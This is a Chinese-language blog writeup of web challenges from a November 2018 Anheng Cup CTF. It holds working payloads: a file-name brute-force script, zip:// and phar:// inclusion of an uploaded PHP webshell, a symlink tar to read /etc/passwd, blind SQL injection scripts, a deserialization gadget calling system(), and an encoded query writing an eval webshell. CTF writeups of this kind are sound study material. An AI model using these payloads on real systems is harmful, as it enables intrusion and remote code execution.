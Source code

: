```yaml
---
layout: post
title: 2018年安恒杯11月月赛web题writeup
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - 安恒杯
  - ctf
  - web
  - writeup
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)

## web

###签到旧题-手速要快（100分）:
10月份原题，打开网站，是一个登陆页面，password字段在返回包里，抓包然后提交，然后是一个上传页面，上传shell.php.jpg即可getshell。
![](/img/in-post/post-2018安恒杯11月月赛-writeup/签到旧题-手速要快.png)

### image_up（200分）

一个登陆页面，随便输入就能登陆，page参数存在文件包含，可以用`php伪协议`读取login和upload源码
![](/img/in-post/post-2018安恒杯11月月赛-writeup/image_up-2.png)
关键代码在upload里
```
<?php
    $error = "";
    $exts = array("jpg","png","gif","jpeg");
    if(!empty($_FILES["image"]))
    {
        $temp = explode(".", $_FILES["image"]["name"]);
        $extension = end($temp);
        if((@$_upfileS["image"]["size"] < 102400))
        {
            if(in_array($extension,$exts)){
              $path = "uploads/".md5($temp[0].time()).".".$extension;
              move_uploaded_file($_FILES["image"]["tmp_name"], $path);
              $error = "上传成功!";
            }
        else{
            $error = "上传失败！";
        }

        }else{
          $error = "文件过大，上传失败！";
        }
    }

?>
```
首先我们要猜测上传文件的文件名，关键位置`md5($temp[0].time())`，我们上传的文件名加上时间戳进行md5生成新的文件名，因此我们需要爆破，但是这里还有一个坑，直接爆破是出不来的，题目提示：
![](/img/in-post/post-2018安恒杯11月月赛-writeup/image_up-2.png)
经群友提示，这里需要考虑时区问题，time+8h（脑洞真大。。。），可以爆破出文件名
```
# -*- coding: UTF-8 -*-
import time
import requests
import hashlib
url = "http://101.71.29.5:10007/"
def md5(str):
  m = hashlib.md5()   
  m.update(str)    
  return m.hexdigest()

files = {
    "image":("1.jpg",open("help.zip","rb"))
}
t = int(time.time()+8*3600)
requests.post(url=url+"index.php?page=upload",files=files)
for i in range(t-200,t+200):
    path = "uploads/"+md5("1"+str(i))+".jpg"    
    status = requests.get(url=url+path).status_code    
    if status == 200:
        print path
        break
```
但是page参数会自动在最后加上`.php`
```
<?php
  if(isset($_GET['page'])){
    if(!stristr($_GET['page'],"..")){
      $page = $_GET['page'].".php";
      include($page);
    }else{
      header("Location: index.php?page=login");
    }
  }else{
    header("Location: index.php?page=login");
  }
```
所以我们还要利用伪协议取getshell，我们先将一句话木马`1.php`压缩为`1.zip`，然后重命名为`1.jpg`，上传后利用伪协议可以将zip压缩包里的木马解析
两种方法都可以：
```
http://101.71.29.5:10007/index.php?page=zip://uploads/ddf1dcc4b533d1631d81a0c58a1b3bdb.jpg%23sky

http://101.71.29.5:10007/index.php?page=phar://uploads/ddf1dcc4b533d1631d81a0c58a1b3bdb.jpg/sky
```
### interesting web（200分）
拿到题目我们看到网站功能只有登陆、注册、和找回密码，以及：
![](/img/in-post/post-2018安恒杯11月月赛-writeup/iinterestingweb-1.png)
可以猜测，我们首选需要利用找回密码的漏洞，修改admin密码，然后上传tar包来getshell。找回密码时需要输入token，经过测试发现网站使用python写的，猜测cookie可能使用的jwt。输入admin点击找回密码，将cookie放到网上揭秘，可以拿到token修改admin密码。
![](/img/in-post/post-2018安恒杯11月月赛-writeup/iinterestingweb-2.png)
然后我们可以上传tar包了，利用软链接可以任意文件读取,flag在/etc/passwd里
```
ln -s /etc/passwd 1.jpg
tar cvfp 1.tar 1.jpg
```
### ezsql（200分）
登陆之后，查看用户信息处存在布尔盲注，很多关键词都过滤了
http://101.71.29.5:10015/user/user.php?id=if(0,1,2)
测试发现可以读文件
http://101.71.29.5:10015/user/user.php?id=if((hex(load_file(0x2f6574632f706173737764))like(0x25)),1,2)
写个脚本注入即可
```
# -*- coding: UTF-8 -*-
import string
import binascii
import requests

hex = lambda s: binascii.hexlify(s)
char = '01234567890ABCDEF'
filename = '/var/www/html/index.php'
c = ''
url = 'http://101.71.29.5:10015/user/user.php?id=if(hex(load_file(0x%s))like(0x%s),1,2)'

for _ in xrange(10000):
  for i in char:
    payload = c + i +'%'
    _url = url % (hex(filename), hex(payload))
    r = requests.get(_url, cookies={'PHPSESSID': 'obgfh6dgt8h9cfcaeus73tlni7'})
    if 'admin' in r.content:
      print '······' + payload
      c = c + i 
      break
      print c
```
得到文件内容
```
<?php 
require_once('config/sys_config.php');
require_once('header.php');
if(isset($_COOKIE['CONFIG'])){
    $config = $_COOKIE['CONFIG'];
    require_once('config/config.php');
}
?>
```
再读取config.php：
```
<?php
$config = unserialize(base64_decode($config));
if(isset($_GET['p'])){
    $p=$_GET['p'];
    $config->$p;
}
class Config{
    private $config;
    private $path;
    public $filter;
    public function __construct($config=""){
        $this->config = $config;
        echo 123;
    }
    public function getConfig(){
        if($this->config == ""){
            $config = isset($_POST['config'])?$_POST['config']:"";
        }
    }
    public function SetFilter($value){
//        echo $value;
    $value=waf_exec($value); 
        var_dump($value);
    if($this->filter){
            foreach($this->filter as $filter){
                $array = is_array($value)?array_map($filter,$value):call_user_func($filter,$value);
            }
            $this->filter = array();
        }else{
            return false;
        }
        return true;
    }
    public function __get($key){
        //var_dump($key);
    $this->SetFilter($key);
        die("");
    }
}
```
发现存在cookie反序列化漏洞，并且可以通过call_user_func执行命令
构造：
```
$sky = new Config();
$sky->filter = array('system');
echo base64_encode(serialize($sky));
```
经过序列化，base64编码后放入cookie中，可通过p参数执行任意命令。
![](/img/in-post/post-2018安恒杯11月月赛-writeup/ezsql.png)
空格和/都被过滤了，可以用`$IFS`绕过空格，用`expr$IFS\substr\$IFS\$(pwd)\$IFS\1\$IFS\1`绕过/，也可以用grep命令。

### 好黑的黑名单（200分）
还是sql注入，过滤了很多东西，空格被过滤可以用%0a代替，万幸and没过滤，看wp知道可以使用`between and`注入
具体方法如下：
![](/img/in-post/post-2018安恒杯11月月赛-writeup/好黑的黑名单.png)
然后payload如下：
```
?id=2 and (select (select database()) between 0x61 and 0x7a)
```
因为单引号被过滤所以使用十六进制，然后写个脚本跑吧。

### write a shell（300分）
继续注入，into outfile，select等关键字经过waf会变为@，所以可以利用该逻辑问题构造@，具体方法百度吧，我也不会。
payload：
```
set |s=concat(CHAR(115, 101, 108, 101, 99, 116, 32, 39, 60, 63, 112, 104, 112, 32, 101, 118, 97, 108, 40, 36, 95, 80, 79, 83, 84, 91, 99, 109, 100, 93, 41, 59, 63, 62, 39, 32, 105, 110, 116, 111, 32, 111, 117, 116, 102, 105, 108, 101, 32, 39, 47, 118, 97, 114, 47, 119, 119, 119, 47, 104, 116, 109, 108, 47, 102, 97, 118, 105, 99, 111, 110, 47, 50, 46, 112, 104, 112, 39));PREPARE s1 FROM |s;EXECUTE s1;

//select '<?php eval($_POST[x]);?>' into outfile '/var/www/html/favicon/11.php'
```
主要思路就是先load_file waf.php，然后想办法绕waf。



[1]: https://www.linkedbyx.com/home
[2]: https://www.anquanke.com/post/id/166492#h2-5